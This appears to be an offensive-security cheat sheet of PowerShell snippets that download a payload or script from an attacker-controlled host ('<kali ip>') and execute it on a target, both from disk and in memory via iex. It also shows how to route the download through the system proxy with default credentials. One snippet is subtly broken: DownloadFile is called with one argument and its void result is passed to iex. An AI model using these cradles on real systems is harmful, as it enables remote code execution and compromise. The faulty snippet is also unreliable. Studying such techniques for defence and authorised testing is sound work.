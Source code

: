 ```powershell

$downloader = New-Object System.Net.WebClient
$payload = "http://<kali ip>/payload.exe"
$local_file = "C:\programdata\payload.exe"
$downloader.DownloadFile($payload, $local_file)

```

Instantiate our System.Net.WebClient class as the $downloader variable
payload URL variable
local_file variable (will save to this location)
Call the object variable with the "DownloadFile" method and our $payload and $local_file variables

- Executing the file once its on our target system can be accomplished using the call operator (&) and variable we created For the payload ($local_file)

```powershell
& $local_file
```

#### [+]
We can configure the Net.WebClient class methods to use the systems proxy and default credentials
```powershell

$downloader = New-Object System.Net.WebClient
$payload = http://<kali ip>/script.ps1
$cmd = $downloader.DownloadFile($payload)

$proxy = [Net.WebRequest]::GetSystemWebProxy()
$proxy.Credentials = [Net.CredentialCache]::DefaultCredentials
$downloader.Proxy = $proxy

iex $cmd

```

#### Net.WebRequest
To download and execute scripts on a target, in memory
```powershell

$req = [System.Net.WebRequest]::Create("http://<kali ip>/script.ps1")
$res = $req.GetResponse()
iex ([System.IO.StreamReader]($res.GetResponseStream())).ReadToEnd()

```

Instantiate our System.Net.WebRequest class as the $req variable
Create a $res variable to store the WebRequest response
Use the "Invoke-Expression" alias (iex) to invoke the System.IO.StreamReader and execute our code

> It can also be configured to use a proxy
we can add this before the iex line

```powershell

$proxy = [Net.WebRequest]::GetSystemWebProxy()
$proxy.Credentials = [Net.CredentialCache]::DefaultCredentials
$req.Proxy = $proxy
```
